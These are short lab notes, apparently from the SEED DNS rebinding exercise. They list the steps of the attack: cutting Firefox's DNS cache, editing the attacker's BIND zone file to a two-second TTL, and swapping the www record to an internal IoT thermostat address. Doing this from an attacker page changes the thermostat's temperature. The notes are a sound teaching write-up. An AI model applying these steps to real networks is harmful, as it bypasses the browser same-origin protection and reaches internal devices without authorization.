 # DNS Rebinding Steps

## Reduce DNS Cache (Firefox)
- Open Firefox > `about:config` > network.dnsCacheExpiration = 10

## Config DNS (Local DNS)
- Access http://www.seediot32.com/ (Termómetro)
- `sudo nano /etc/resolvconf/resolv.conf.d/head`
- `sudo resolvconf -u `
- Access http://www.attacker32.com/ (Countdown)

## Attacker DNS 
- `docker exec -it attacker-ns-10.9.0.153 bash`
- `nano /etc/bind/zone_attacker32.com`

```
# cat etc/bind/zone_attacker32.com
$TTL 2
@       IN      SOA   ns.attacker32.com. admin.attacker32.com. (
                2008111001
                8H
                2H
                4W
                1D)

@       IN      NS    ns.attacker32.com.

@       IN      A     10.9.0.180
;www     IN      A     10.9.0.180
www     IN      A     192.168.60.80
ns      IN      A     10.9.0.153
*       IN      A     10.9.0.100
```

`rndc reload attacker32.com`

`service named restart`

## Local DNS
`docker exec -it local-dns-server-10.9.0.53 /bin/sh -c 'rndc flush'`

## Test

- Access http://www.attacker32.com/change 

## Attack

- `docker exec -it attacker-ns-10.9.0.153 bash`
- `nano /etc/bind/zone_attacker32.com`

```
...
www     IN      A     10.9.0.180
;www      IN      A     192.168.60.80
...
```

- `rndc reload attacker32.com`

- Fix temperature http://www.seediot32.com/
- Reload http://www.attacker32.com/
- Show web console


- `docker exec -it attacker-ns-10.9.0.153 bash`
- `nano /etc/bind/zone_attacker32.com`

```
...
;www     IN      A     10.9.0.180
www      IN      A     192.168.60.80
...
```

`rndc reload attacker32.com`

- Show web console
- Check http://www.seediot32.com/